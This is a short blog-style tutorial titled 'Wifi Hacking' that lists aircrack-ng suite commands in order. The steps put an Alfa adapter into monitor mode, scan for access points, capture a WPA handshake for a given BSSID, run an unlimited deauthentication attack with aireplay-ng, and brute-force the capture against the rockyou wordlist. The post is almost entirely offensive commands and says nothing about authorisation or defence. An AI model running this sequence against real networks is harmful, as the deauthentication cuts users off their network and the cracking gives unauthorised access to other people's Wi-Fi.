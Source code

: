 ```yaml
---
layout: post
title: Wifi Hacking
---
```


Alfa-card is mandatory to search/scan for available Networks
Steps:
Connect alfa-card and check the Interfaces
  Run - ipconfig/iwconfig - after this you will get the wlan0 interface

Start Monitor Mode
	Run - airmon-ng start wlan0

Verify its Monitor Mode
  Run - airmon-ng/iwconfig

Now Scan/Check for Nearby Available Networks
  Run - airodump-ng wlan0mon
The above command this will display or show list of available networks and make sure you capture and keep a note of AP's MAC address(BSSID) and channel
*AccessPoint(AP)*

After getting BSSID and Channel id
Start Capturing the Handshake and Attack the same Time or after 5min.

	Run - airodump-ng -w test -c 11 --bssid BE:A5:8B:65:F8:FE wlan0mon - to capture the Handshake

	aireplay-ng --deauth 0 -a BE:A5:8B:65:F8:FE wlan0mon - to attack the network

	-w to save a file 

	Now Stop the Monitormode and brute force the captured handshake

	Run - airmon-ng stop wlan0mon

	Bruteforce the saved file with the wordlists to crack the password

	aircrack-ng test.cap -w /usr/share/wordlists/rockyou.txt 
